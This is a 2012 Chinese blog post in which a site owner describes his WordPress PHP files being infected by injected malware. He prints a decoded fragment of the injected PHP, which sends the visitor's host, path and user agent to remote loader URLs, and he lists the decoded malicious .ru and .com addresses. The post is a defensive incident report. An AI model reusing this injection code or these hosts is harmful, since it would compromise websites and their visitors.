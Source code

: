 ```yaml
---
id: 1848
title: 博客被注入恶意代码
date: 2012-07-03T16:48:11+00:00
author: tanglei
layout: post
guid: http://www.tanglei.name/?p=1848
permalink: malware-code-injection
duoshuo_thread_id:
  - 1351844048792453409
enable_highlight:
  - '<link rel="stylesheet" href="../wp-content/blogresources/highlightconfig/highlight.default.min.css"><script src="../wp-content/blogresources/highlightconfig/jquery-2.1.4.min.js"></script><script src="../wp-content/blogresources/highlightconfig/enable_highlight.js"></script>'
categories:
  - 我做站长
  - 经验技巧
tags:
  - 入侵
  - 恶意代码
  - 旁注
  - 网络安全
---
```

这两天准备更新下本博客的评论，加上诸如评论啦、多说等插件，发现某些php文件貌似不太对劲。今天又收到了google的名为“Malware notification regarding tanglei.name”的邮件，再进博客后台，发现博客所有的php文件被感染，诸如下图一些加密代码。用chrome访问博客时也被拦截，提示“警告：此页面包含危险内容！**[www.tanglei.name](http://www.tanglei.name/)** 包含恶意软件。如果您访问此网站，您的计算机可能会中毒。……”

<p style="text-align: center;">
  <a href="http://www.tanglei.name/wp-content/uploads/2012/07/植入木马.jpg"><img class="aligncenter  wp-image-1849" title="植入木马" src="http://www.tanglei.name/wp-content/uploads/2012/07/植入木马.jpg" alt="网页包含恶意软件" width="640" height="331" data-pinit="registered" /></a>
</p>

再SSH进入主机，发现该主机下其他域名的所有的php文件都植入了这些代码。如图所示，我的i3zhai.com也中招了.

<p style="text-align: center;">
  <a href="http://www.tanglei.name/wp-content/uploads/2012/07/植入恶意代码.jpg"><img class="aligncenter  wp-image-1850" title="植入恶意代码" src="http://www.tanglei.name/wp-content/uploads/2012/07/植入恶意代码.jpg" alt="网页包含恶意软件" width="640" height="341" data-pinit="registered" /></a>
</p>

base64解码以上植入的恶意代码，发现以上恶意代码跟目标主机相关联的关键的几行代码:

<pre>&lt;cc class="php">
$_SERVER['s_p1']=$mz;  $_SERVER['s_b1']=$bot;  $_SERVER['s_t1']=1200;  $_SERVER['s_d1']=base64_decode('aHR0cDovL2VuczEyMnp6emRkYXp6LmNvbS8=');  $d='?d='.urlencode($_SERVER["HTTP_HOST"])."&#038;p=".urlencode($_SERVER["PHP_SELF"])."&#038;a=".urlencode($_SERVER["HTTP_USER_AGENT"]); 
$_SERVER['s_a1']=base64_decode('aHR0cDovL3BtZ2N6a2luZml1bS5ydS9nX2xvYWQucGhw').$d;  $_SERVER['s_a2']=base64_decode('aHR0cDovL2luZmlwbWcucnUvZ19sb2FkLnBocA==').$d;  
$_SERVER['s_script']="pmg.php?d=x";  
&lt;/cc></pre>

关键url还得base64解码，得到的url如下：

<pre>&lt;cc class="php">
http://pmgczkinfium.ru/g_load.php
http://infipmg.ru/g_load.php
http://ens122zzzddazz.com/ 
&lt;/cc></pre>

看来就是跟这些相关了。查了这几个url，发现也有其他站点中招了。
  
目前我能想到的解决方案就是写个脚本，在后台跑一下，把所有php中这些代码都删除掉。不过这个有风险啊，一是不知道后台允许我执行这样的脚本么，而是操作这些代码要是有个什么差错的话就惨了。目前联系了主机提供商，看看他们有什么解决方案。
  
暂且就不管了吧。如果你现在能看到这篇文章就是忽略浏览器的拦截了。呵呵。待解决……

